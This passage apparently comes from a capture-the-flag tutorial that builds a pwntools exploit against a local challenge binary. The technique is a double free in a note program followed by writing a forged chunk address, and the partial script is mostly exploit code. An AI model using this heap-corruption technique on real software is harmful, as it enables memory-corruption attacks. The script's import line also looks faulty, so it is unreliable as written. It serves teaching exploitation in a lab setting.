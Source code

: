 Recall that the first thing the binary does is print the location of a stack variable. It would be useful to read this when the process starts and store it for later. One way of doing this is like so:

```python
io.recvuntil(b'0x')
choice_addr_hex = io.recvline()[:-1].decode('utf-8')
choice_addr = int(choice_addr_hex, 16)
```

This simply discards the output of the process up until `0x`, which is printed at the start of the `choice` address. Then it reads up until the next newline character (which we discard with the `[:-1]`), converts it into a string, and stores it.
The final line then converts this from hex to an integer.

Now, we can begin writing our exploit.

First of all, we need to trigger our double free. Recall that this was done by creating a note, and then deleting it twice, like so:

```python
create_note(b'whatever')
delete_note(0)
delete_note(0)
```

Now, we allocate a note and write our custom chunk address into it's first 8 bytes. For now we will just use `0xdeadbeef`.

```python
forged_chunk = 0xdeadbeef
create_note(p64(forged_chunk))
```

Then we allocate one more copy of the previous note, which we discard, and then can write into our target chunk.

```python
create_note(b'')
written_data = b'whatever'
create_note(written_data)
```

Finally, we exit the program and enter interactive mode to see any further output.

```python
exit_program()
io.interactive()
```

Our exploit script should now look like this (I have moved `forged_chunk` and `written_data` to the top of the exploit for readability):

```python
from pwn import target, ELF, p64, PTY

target = ELF('./chal')
io = process(target.path, stdin=PTY, stdout=PTY)

def create_note(data: bytes):
	io.recvuntil(b'> ')
	io.sendline(b'2')
	io.recvuntil(b': ')
	io.sendline(data)

def delete_note(index: int):
	io.recvuntil(b'> ')
	io.sendline(b'4')
	io.recvuntil(b': ')
	io.sendline(str(index).encode('utf-8'))

io.recvuntil(b'0x')
```